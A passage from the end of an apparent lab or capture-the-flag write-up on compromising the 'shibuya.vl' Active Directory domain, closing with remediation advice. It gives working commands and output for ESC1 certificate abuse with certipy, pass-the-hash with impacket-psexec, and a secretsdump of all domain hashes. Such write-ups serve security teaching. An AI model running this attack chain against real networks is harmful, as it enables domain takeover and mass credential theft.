```bash
hyena@hyena:~$ proxychains4 certipy-ad req -u nigel.mills@shibuya.vl -p Sail2Boat3 -ca shibuya-AWSJPDC0522-CA -target shibuya.vl -template 'ShibuyaWeb' -upn administrator@shibuya.vl
```

**Command Breakdown:**
- `req` — Request a certificate
- `-ca shibuya-AWSJPDC0522-CA` — Target Certificate Authority
- `-template 'ShibuyaWeb'` — Vulnerable template
- `-upn administrator@shibuya.vl` — Request a certificate for the Administrator (User Principal Name)

**Result:**
```
[*] Successfully requested certificate
[*] Request ID: 3
[*] Got certificate with UPN: 'administrator@shibuya.vl'
[*] Saving certificate and private key to 'administrator.pfx'
```

### Authenticating as Administrator

```bash
hyena@hyena:~$ proxychains4 certipy-ad auth -pfx administrator.pfx -dc-ip 10.129.234.42
```

**Command Breakdown:**
- `auth` — Authenticate using a certificate
- `-pfx administrator.pfx` — Certificate file
- `-dc-ip 10.129.234.42` — Domain Controller IP

**Result:**
```
[*] Using certificate to authenticate
[*] Got TGT for administrator@shibuya.vl
[*] Administrator NTLM hash: 8dcb5ed323d1d09b9653452027e8c013
```

---

## Complete Domain Compromise

### Pass-the-Hash as Administrator

```bash
hyena@hyena:~$ impacket-psexec shibuya.vl/Administrator@10.129.234.42 -hashes :8dcb5ed323d1d09b9653452027e8c013
```



**Result:**
```
Microsoft Windows [Version 10.0.20348.3453]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
shibuya\administrator
```

### Dumping All Domain Hashes

```bash
hyena@hyena:~$ impacket-secretsdump shibuya.vl/Administrator@10.129.234.42 -hashes :8dcb5ed323d1d09b9653452027e8c013 -just-dc-ntlm
```

**Command Breakdown:**
- `-just-dc-ntlm` — Only dump NTLM hashes (faster than full NTDS dump)

**Output:**
```
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8dcb5ed323d1d09b9653452027e8c013:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:bd6bd7fcab60ba569e3ed57c7c322908:::
simon.watson:1104:aad3b435b51404eeaad3b435b51404ee:5d8c3d1a20bd63f60f469f6763ca0d50:::
nigel.mills:1105:aad3b435b51404eeaad3b435b51404ee:5d8c3d1a20bd63f60f469f6763ca0d50:::
svc_autojoin:1106:aad3b435b51404eeaad3b435b51404ee:8dcb5ed323d1d09b9653452027e8c013:::
[*] Cleaning up...
```

### Root Flag

```cmd
type C:\Users\Administrator\Desktop\root.txt
```

**Result:**
```
[FLAG CONTENT]
```



---

## Final Results

| Flag | Status | Value |
|:--|:--|:--|
| **User Flag** (simon.watson) | Captured | Captured from `\\shibuya.vl\users\simon.watson\Desktop\user.txt` |
| **Root Flag** (Administrator) | Captured | Captured from `C:\Users\Administrator\Desktop\root.txt` |

---

## Security Recommendations

| # | Recommendation | Severity |
|---|----------------|----------|
| 1 | **Remove Passwords from AD Descriptions** — The `svc_autojoin` password was stored in the description field, allowing any user with enumeration rights to discover it. Use a secure credential management solution instead. | Critical |
| 2 | **Restrict images$ Share Permissions** — The `images$` administrative share was readable by a service account. WIM files contain sensitive registry hives and should be protected with strict NTFS permissions. | Critical |
| 3 | **Enforce Strong Password Policy** — `red:red` was a valid credential. Enforce strong passwords and implement account lockout policies to prevent password spraying. | Critical |
| 4 | **Disable Unnecessary Services** — SSH (port 22) is not typically required on Domain Controllers. Disable or restrict SSH access to authorized administrative IPs only. | High |
| 5 | **Fix ADCS ESC1 Vulnerability** — The `ShibuyaWeb` template allowed `Enrollee Supplies Subject` with `Client Authentication`. Remove the `Enrollee Supplies Subject` flag or restrict enrollment rights to only authorized administrators. | Critical |
| 6 | **Reduce MachineAccountQuota** — The default quota of 10 machine accounts per user allowed creation of rogue computer accounts. Reduce to 0 for non-administrative users. | High |
| 7 | **Monitor for Unusual SMB Access** — Implement logging and alerting for SMB share enumeration and access attempts from non-administrative accounts. | Medium |
| 8 | **Implement LAPS** — Local Administrator Password Solution prevents local admin password reuse and ensures unique passwords on each machine. | High |
| 9 | **Audit Kerberos Delegation** — Review and remove unnecessary delegation configurations to prevent ticket impersonation attacks. | High |

---

## Conclusion

This penetration test successfully compromised the `shibuya.vl` domain from an unauthenticated starting point through a multi-stage attack chain. The attack leveraged a combination of misconfigurations and weak security practices including:

1. **Credential Exposure** — Passwords stored in AD descriptions and weak passwords like `red:red`
2. **Inadequate Share Permissions** — Sensitive WIM files accessible to a service account
3. **Password Reuse** — Same NTLM hash used for `operator` and `simon.watson`
4. **Active RDP Sessions** — Allowed cross-session relay attacks
5. **ADCS Misconfiguration** — ESC1 vulnerability in the `ShibuyaWeb` certificate template
6. **Default MachineAccountQuota** — Allowed creation of rogue computer accounts

By addressing these findings, the organization can significantly improve its security posture and prevent similar attacks in the future.
